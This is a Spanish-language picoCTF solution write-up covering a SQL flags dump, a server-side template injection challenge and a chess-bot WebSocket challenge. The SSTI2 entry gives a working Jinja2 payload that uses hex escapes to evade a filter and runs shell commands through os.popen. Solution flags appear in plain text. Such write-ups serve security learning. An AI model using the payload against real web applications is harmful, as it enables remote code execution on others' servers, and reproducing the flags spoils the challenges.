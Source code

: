 ````` python
ERROR:  syntax error at or near "select"
LINE 2: select * from flags
        ^
pico=# select * from flags<
pico-# ^C
pico=# SELECT * FROM flags;
 id | firstname | lastname  |                address
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_21c94904}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)
````` 






# 09  SSTI2
# DESC

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)I heard templating is a cool and modular way to build web apps! Check out my website [here](http://shape-facility.picoctf.net:51842/)!
# SOLUCION

````` python
entre a la pagina y copie esto 
{{request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')()}}
picoCTF{sst1_f1lt3r_byp4ss_8b534b82}
````` 



# 10  WebSockFish
# DESC

Can you win in a convincing manner against this chess bot? He won't go easy on you!You can find the challenge [here](http://verbal-sleep.picoctf.net:57518/).

# SOLUCION

````` python
inpecione en terminal y mande mensajes 
typeof sendMessage

'function'
sendMessage("mate -1000000000000000000000000000000000000000000");

undefined
sendMessage("mate -10000000000000000000000000000000000000000000000000000");

undefined
sendMessage("mate -10000000000000000000000000000000000000000000000000000000");

undefined
sendMessage("eval -100000000000000000000000000000000000000000000000000000000000000000000");
`````